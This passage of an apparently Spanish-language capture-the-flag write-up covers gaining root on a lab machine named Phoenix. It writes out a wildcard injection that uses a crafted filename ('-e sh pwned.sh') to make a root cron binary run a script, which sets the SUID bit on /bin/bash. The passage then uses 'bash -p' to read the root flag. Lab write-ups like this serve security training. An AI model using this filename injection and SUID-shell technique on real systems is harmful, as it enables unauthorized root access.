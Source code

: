 Está tomando todos los archivos que se encuentran en el directorio ```/backups```. Suponiendo que se está utilizando un wildcard (*), se puede probar a inyectar un comando en el nombre del archivo

<img src="/writeups/assets/img/Phoenix-htb/5.png" alt="">

La idea va a ser asignarle el privilegio SUID a la bash. Creo un archivo ```pwned.sh``` y le asigno permisos de ejecución

```null
chmod u+s /bin/bash
```

Creo el archivo

```null
editor@phoenix:/backups$ touch -- "-e sh pwned.sh"
```

Ejecuto el binario

```null
/usr/local/bin/cron.sh.x
```

La bash se convierte en SUID

```null
editor@phoenix:/backups$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Puedo ver la segunda flag

```null
editor@phoenix:/backups$ bash -p
bash-5.0# cat /root/root.txt 
2ed6bd67180e0d0d8d343e91c06aec81
```